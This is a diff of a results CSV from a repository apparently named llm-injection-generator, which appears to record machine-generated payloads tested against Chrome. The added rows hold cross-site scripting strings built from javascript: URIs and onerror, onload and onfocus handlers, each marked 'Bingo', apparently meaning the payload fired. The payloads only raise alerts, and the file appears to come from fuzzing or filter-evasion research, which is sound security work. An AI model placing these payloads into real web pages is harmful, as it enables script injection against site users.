

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/gan_result_vec_chrome.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/result/gan_result_vec_chrome.csv
+++ b/result/gan_result_vec_chrome.csv
+row 58: body_tag | <embed src='javascript:alert(1);'>onfocus=<img src='x' onerror='alert("XSS9")'> | <svg onload='alert("XSS6")'><iframe src='javascript:alert("XSS7");'>type=' | <a href='javascript:alert("XSS8")'><img src='x' onerror='alert("XSS2");'><img src='x' onerror='alert(2);'> | Bingo
+row 59: body_tag | <iframe src='javascript:alert(1);'><div onmouseover='alert("XSS6");'><input type='submit'> | <embed src='javascript:alert("XSS9");'><div onmouseover='alert("XSS6");'><img src='x' onerror='alert("XSS9")'> | <input type='image' src='x' onerror='alert(1);'><a href='#' onclick='alert(8);'><img src='x' onerror='alert(2);'> | Bingo
+row 60: body_tag | <object data='javascript:alert(1);'>onfocus=<body onload='alert("XSS3");'> | <a href='javascript:alert("XSS8")'><img src='x' onerror='alert("XSS2");'><img src='x' onerror='alert(2);'> | <input type='image' src='x' onerror='alert(1);'><a href='#' onclick='alert(8);'><img src='x' onerror='alert(2);'> | Bingo
+row 61: body_tag | <svg onload='alert("XSS6")'><body onload='alert("XSS3");'><input type='submit'> | <svg onload='alert("XSS6")'><iframe src='javascript:alert("XSS7");'>type=' | </style><input type='text' value='XSS6' onfocus='alert(this.value);'><div onmouseover='alert("XSS6");'> | Bingo
+row 62: body_tag | </style><input type='text' value='X' onchange='alert("XSS7")'><svg onload='alert("XSS5")'/> | </style><input type='text' value='XSS6' onfocus='alert(this.value);'><div onmouseover='alert("XSS6");'> | <embed src='javascript:alert("XSS9");'><body onload='alert("XSS3");'><input type='submit'> | Bingo
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_chrome.csv, 8 other files.
